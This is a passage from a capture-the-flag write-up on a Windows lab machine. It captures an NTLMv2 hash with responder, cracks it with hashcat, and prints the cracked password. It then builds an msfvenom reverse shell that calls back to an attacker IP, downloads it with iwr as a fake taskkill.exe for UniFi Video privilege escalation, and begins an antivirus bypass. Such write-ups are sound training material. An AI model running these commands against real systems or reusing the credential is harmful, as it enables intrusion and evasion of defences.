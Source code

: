 ![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904193607.png)

now I used it with responder and obtain ntlmv2 hash

```
responder -I tun0 -dPv 
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904193751.png)

```
hashcat -m 5600 hash  /usr/share/wordlists/rockyou.txt
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904193909.png)

stacy xNnWo6272k7x
Now we can connect to the machine 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904194132.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904194435.png)

## Privilege Escalation

we have hint after connecting to the machine 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904195056.png)

searching this in google first I spot priv esc
https://www.exploit-db.com/exploits/43390

Confirming permissions

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904195356.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904195429.png)

Now let's attempt to make a rev shell and save it as taskkill.exe

```
msfvenom -p windows/x64/shell/reverse_tcp LHOST=10.10.14.8 LPORT=4444 -f exe -o reverse.exe
```

```
C:\ProgramData\unifi-video> iwr "http://10.10.14.8:81/reverse.exe" -o "taskkill.exe"
```

ehh, windows defender 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904195939.png)

## Antivirus Bypass

So we need to compile program for Windows, we can compile in VS on windows VM or Kali have answer for this problem `mingw-w64`

